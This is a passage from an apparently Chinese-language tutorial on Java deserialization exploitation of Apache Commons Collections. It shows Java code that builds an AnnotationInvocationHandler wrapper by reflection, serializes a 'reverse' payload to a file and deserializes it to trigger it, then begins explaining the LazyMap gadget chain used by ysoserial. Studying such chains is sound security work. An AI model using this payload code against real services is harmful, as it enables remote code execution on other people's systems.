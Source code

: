 ```java
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        Object instance = ctor.newInstance(Retention.class, outmap);
        return instance;
    }

    public static void main(String[] args) throws Exception {
        GeneratePayload(Reverse_Payload(),"obj");
        payloadTest("obj");
    }

    public static void GeneratePayload(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }

    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

#### 0x05 基于LazyMap的调用链

在Apache common collections只要可以触发ChainedTransformer.transform即可，通过"Ysoserial"利用工具可得到通过org.apache.commons.collections.LazyMap进行利用的调用链

```java
public static Map decorate(Map map, Transformer factory) {
    return new LazyMap(map, factory);
}

protected LazyMap(Map map, Transformer factory) {
    super(map);
    if (factory == null) {
        throw new IllegalArgumentException("Factory must not be null");
    } else {
        this.factory = factory;
    }
}

public Object get(Object key) {
    if (!super.map.containsKey(key)) {
        Object value = this.factory.transform(key);
        super.map.put(key, value);
        return value;
    } else {
        return super.map.get(key);
    }
}
```

